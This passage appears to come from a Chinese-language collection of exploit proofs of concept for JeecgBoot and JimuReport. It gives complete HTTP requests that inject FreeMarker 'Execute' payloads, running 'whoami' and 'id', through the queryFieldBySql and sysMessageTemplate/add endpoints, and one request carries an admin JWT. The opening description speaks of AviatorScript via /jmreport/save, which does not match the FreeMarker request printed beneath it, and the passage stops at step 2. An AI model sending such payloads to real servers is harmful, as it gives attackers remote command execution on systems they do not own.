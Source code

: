 积木报表软件存在AviatorScript代码注入RCE漏洞。使用接口/jmreport/save处在text中写入AviatorScript表达式。访问/jmreport/show触发AviatorScript解析从而导致命令执行。  
  
  
POST /jeecg-boot/jmreport/queryFieldBySql?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0  
  
Accept: application/json, text/plain, */*  
  
Content-Type: application/json  
  
Content-Length: 108  
  
{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"whoami \") }'"   
  
}  
## jeecg-boot后台/sysMessageTemplate/sendMsg接口freemaker模板注入  
  
jeecg-boot的Freemarker模板注入导致远程命令执行, 远程攻击者可利用该漏洞调用在系统上执行任意命令。  
  
  
1、添加一个测试模板  
  
  
POST /jeecg-boot/sys/message/sysMessageTemplate/add HTTP/1.1  
  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0  
  
Accept: application/json, text/plain, */*  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao  
  
Tenant-Id: 0  
  
Sec-Fetch-Dest: empty  
  
Sec-Fetch-Mode: cors  
  
Sec-Fetch-Site: cross-site  
  
Priority: u=0  
  
Te: trailers  
  
Connection: close  
  
Content-Type: application/json;charset=UTF-8  
  
Content-Length: 141  
  
{"templateType":"1","templateCode":"5","templateName":"test111","templateContent":"${\"freemarker.template.utility.Execute\"?new()(\"id\")}"}  
  
2、发送模板  
  